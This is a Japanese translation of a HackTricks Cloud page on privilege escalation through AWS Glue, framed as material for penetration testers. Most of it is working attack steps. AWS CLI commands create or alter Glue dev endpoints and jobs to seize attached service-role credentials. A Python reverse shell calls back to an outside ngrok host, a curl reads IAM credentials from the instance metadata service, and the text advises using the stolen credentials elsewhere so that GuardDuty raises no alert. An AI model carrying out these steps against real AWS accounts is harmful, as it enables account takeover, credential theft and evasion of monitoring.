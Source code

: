 # AWS - Glue Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:PassRole`と`glue:CreateDevEndpoint`の権限を持つ攻撃者は、**新しいAWS Glue開発エンドポイントを作成し、既存のサービスロールをそれに渡す**ことができます。その後、インスタンスにSSHで接続し、AWS CLIを使用して、そのロールがアクセス権を持つ権限を利用できます。
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
Now the attacker would just need to **SSH into the development endpoint** to access the roles credentials.
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
GuardDutyのドキュメントには特に記載されていませんが、Glueインスタンスから認証情報を持ち出すことは良くないアイデアです。代わりに、**新しいインスタンスから直接AWS APIにアクセスすべきです**。

**潜在的な影響：** 指定されたglueサービスロールへのPrivesc。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** 権限を持つ攻撃者は、既存のGlue開発エンドポイントに関連付けられたSSH公開鍵を**更新し**、それにSSHでログインして、添付されたロールがアクセスできる権限にアクセスできるようになります。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
攻撃者は、**SSHを介して開発エンドポイントにアクセスし、ロールのクレデンシャルにアクセスする必要がある**でしょう。AWS APIは、アラートを引き起こさないように新しいインスタンスから直接アクセスされるべきです。

**潜在的な影響：** 使用されているglueサービスロールへのPrivesc。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

これらの権限を持つ攻撃者は、**任意のglueサービスアカウントをアタッチしてジョブを作成/更新**し、それを開始することができます。ジョブは任意のPythonコードを実行できるので、リバースシェルを取得し、アタッチされたロールの**IAMクレデンシャルを盗む**ことができます。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的な影響:** glueサービスロールに対する権限昇格。

### `glue:UpdateJob`

更新権限だけで、攻撃者は既にアタッチされているロールのIAMクレデンシャルを盗むことができます。

**潜在的な影響:** アタッチされているglueサービスロールに対する権限昇格。

## 参照

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
